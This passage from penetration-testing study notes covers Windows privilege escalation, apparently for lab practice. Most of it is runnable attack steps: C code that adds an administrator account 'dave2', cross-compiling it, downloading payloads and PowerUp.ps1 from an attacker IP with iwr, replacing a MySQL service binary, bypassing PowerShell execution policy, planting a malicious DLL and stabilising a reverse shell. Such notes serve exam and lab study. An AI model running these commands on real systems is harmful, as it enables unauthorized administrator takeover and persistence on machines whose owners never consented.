         i = system ("net user dave2 password123! /add");
        i = system ("net localgroup administrators dave2 /add");
        
        return 0;
      }
      ```
    - cross-compile c code to 64bit app
      `kali@kali:~$ x86_64-w64-mingw32-gcc adduser.c -o adduser.exe`
    - Download to target
      ```
      PS C:\Users\dave> iwr -uri http://192.168.48.3/adduser.exe -Outfile adduser.exe  
      PS C:\Users\dave> move .\adduser.exe C:\xampp\mysql\bin\mysqld.exe  
      ```
    - stop the service and restart it  
      `net stop mysql`  
    - reboot  
      `shutdown /r /t 0`  
    - lower-privileged user replace the program with a malicious one  
  - 🖥️ **Auotmated Priviledge Escalation - PowerUp.sp1**
    - Automates the enumeration of misconfigurations, weak permissions, and exploitable services. **Need bypass `powershell -ep bypass`**  
    - Download PowerUp.ps1 to target and run it
      ```
      PS C:\Users\dave> iwr -uri http://192.168.48.3/PowerUp.ps1 -Outfile PowerUp.ps1
      PS C:\Users\dave> powershell -ep bypass
      PS C:\Users\dave>  . .\PowerUp.ps1
      PS C:\Users\dave> Get-ModifiableServiceFile
      ```
    - `Get-ModifiableServiceFile`: Quick check. Targets services running as SYSTEM/admin and checks if the service binary or folder is writable by the current user.  
    - `Invoke-AllChecks`: Comprehension check. Runs all PowerUp enumeration checks: services, scheduled tasks, DLL hijacks, token privileges, ACL misconfigurations, user/group info 
    - Abuse the service
      `Install-ServiceBinary -Name 'mysql'`  #might receive error then back to manual approach  (adduser.c)  
  - DLL Hijacking
    1. identify services running as SYSTEM or admin  
       `Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname`  
       ```
       Get-Service | Where-Object {$_.StartType -eq 'Automatic' -and $_.Status -eq 'Running'}
       Import-Module .\PowerUp.ps1
       Invoke-AllChecks | Out-String -Stream | Select-String "DLL Hijack"
       ```
    4. Find writable directory  
       `echo "test" > 'C:\FileZilla\FileZilla FTP Client\test.txt'`  
       `Get-ChildItem "C:\Program Files\<TargetService>\" | ForEach-Object { icacls $_.FullName }`   
    6. Create malicious DLL (add_admin.cpp)  
       `x86_64-w64-mingw32-gcc <software>.cpp --shared -o <software>.dll`  
    8. Deliver malicious DLL  
       `iwr -uri http://<KALI>/<software>.dll -OutFile 'C:\FileZilla\FileZilla FTP Client\<software>.dll'`  
    10. Trigger execution  
        `Restart-Service -Name <TargetService>`
    12. stablize reverse shell  
        `python3 -c 'import pty; pty.spawn("/bin/sh")'`  
    14. post-exploitation and check for  movement or sensitive files  
  - Unquoted Service Paths
    - Windows service binaries that run with spaces in their path but without quotes.  
    - List Windows services with spaces in the path and missing quotes  
      `wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """`  
      OR PowerUp tool `Get-ServiceUnquoted`  
    - Check write permission  
      `icacls "C:\"` `icacls "C:\Program Files"` `icacls "C:\Program Files\Enterprise Apps"`  
    - Replace the program with malicious adduser.exe  